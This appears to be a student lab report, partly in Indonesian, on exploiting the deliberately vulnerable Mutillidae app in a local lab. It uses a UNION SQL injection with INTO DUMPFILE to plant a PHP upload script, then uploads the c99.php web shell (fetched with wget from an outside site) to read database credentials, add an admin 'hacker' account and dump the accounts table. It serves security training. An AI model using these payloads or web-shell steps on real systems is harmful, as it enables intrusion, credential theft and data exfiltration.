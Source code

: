 # Lesson 11 : SQL Injection Union Exploit #4 (Create PHP Upload Script)

## Download c99.php
1. Open a console terminal
2. Get Rar File
   - Buka terminal, jalankan perintah berikut :
   ```bash
   mkdir -p /root/backdoor
   cd /root/backdoor/
   wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson11/stuff.rar
   ls -lrt
   ```
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/download.png "Home page")
3. Extract Rar File
   - Jalankan perintah berikut pada terminal :
   ```bash
   unrar x stuff.rar
   cat part1.txt part2.txt part3.txt > c99.php
   cp c99.php c99.php.bkp
   ls -lrt
   ```
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/extract.png "Home page")
4. Configure and Prepare c99.php
   - Jalankan perintah berikut pada terminal :
   ```bash
   head -1 c99.php
   sed -i '1 s/^.*$/<?php/g' c99.php
   head -1 c99.php
   gzip c99.php
   ls -l
   ```
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/configure.png "Home page")

## Navigate to the User Info Page
1. Buka browser kemudian akses Mutillidae sesuai ip metasploit pada alamat http://10.0.1.100/mutillidae
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/start_browser.png "Home page")
2. Go to User Info
   - OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info 
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/user_info.png "Home page")

## Inject Upload Form into User Info Page
1. Inspect the View Account Details Button
   - Klik kanan pada Button View Account, kemudian inspect element
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/user_info.png "Home page")
2. Change Button Placement
   - Pada bagian text-align udah dari yang semula center menjadi left
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/change_button.png "Home page")
3. Inspect the Name Textbox
   - Klik kanan pada textbox **Name**, kemudian inspect element
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_18/inspect.png "Home page")
4. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 550
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/change_name.png "Home page")
5. Backdoor Union SQL Union Injection
   - Pada kolom Textbox **Name** isikan 
   ```bash
   ' union select null,null,null,null,'<html><body><div><?php if(isset($_FILES["fupload"])) { $source = $_FILES["fupload"]["tmp_name"]; $target = $_FILES["fupload"]["name"]; move_uploaded_file($source,$target); system("chmod 770 $target"); $size = getImageSize($target); } ?></div><form enctype="multipart/form-data" action="<?php print $_SERVER["PHP_SELF"]?>" method="post"><p><input type="hidden" name="MAX_FILE_SIZE" value="500000"><input type="file" name="fupload"><br><input type="submit" name="upload!"><br></form></body></html>' INTO DUMPFILE '/var/www/html/mutillidae/upload_file.php' -- 
   ```
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/union.png "Home page")
6. Viewing the Results
	- Scroll kebawah untuk melihat hasilnya
	- Perhatikan hasilnya
  ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/result_union.png "Home page")

## Upload c99.php to Mutillidae
1. Place the following URL in the Address Bar
	- Buka url berikut pada browser 
		http://10.0.1.100/mutillidae/upload_file.php
	- Klik tombol Browse
	- Cari file c99.php pada folder /root/backdoor
	- Klik tombol Open
	- Klik tombol Submit Query

## Using c99:php's to grab database password
1. Server security information
	- Buka url berikut pada browser 
		http://10.0.1.100/mutillidae/c99.php
	- Klik link navigasi Sec

2. Discover Mutillidae Application Directory
	- Isikan "pwd" pada textbox sebelah kiri paling atas
	- Klik Execute
3. Search php scripts for the string password
	- Isikan `find /var/www/mutillidae -name "*.inc" | xargs grep -i "dn" | grep "="` pada kalom kedua
	- Klik Execute
4. Viewing Password Results
    - Pada textbox pertama akan tampil hasil dari eksekusi command


## Using c99:php's to examine pillage the database
1. Connect to SQL
   - Klik link navigasi Sec
   - Isikan pada textbox
   ```
   Username: root
   Password: samurai
   Database: owasp10
   ```
   - Klik tombol Connect
2. Select table accounts
	- Select tabel account pada database owasp10
3. Insert Record Link
	- Klik link Insert 
4. Supply New User Information
   - Isikan pada textbox
```
cid Value: 20
username Value: hacker
password Value: hacker
mysignature: Noob
is_admin: TRUE
```
   - Klik tombol Confirm
5. Insert New User Information
   - Klik tombol Yes
6. Verify New User Information
   - Scroll kebawah untu melihat hasil
   - Veifikasi jika user hacker sudah dibuat
7. Prepare to Dump the Accounts Table
   - Scroll keatas
   - Klik link Dump
8. Dump the Accounts Table
   - Isikan pada textbox
```
  DB: owasp10
  Only tables (explode ";"): accounts
  File: ./dump_owasp10_accounts.sql
  Download Checkbox: Check it
  Save to file Checkbox: Check it
```
   - Klik tombol Dump
9. Save Accounts Dump File (Part 1)
   - Pilih Save File

## Proof of Lab
1. View Result
- Buka terminal
- Pindah direktori ke folder Downloads `cd Downloads`
- Jalankan perintah berikut
```
grep -i hacker dump_owasp10_accounts.sql
date
echo "Hendri F"
```
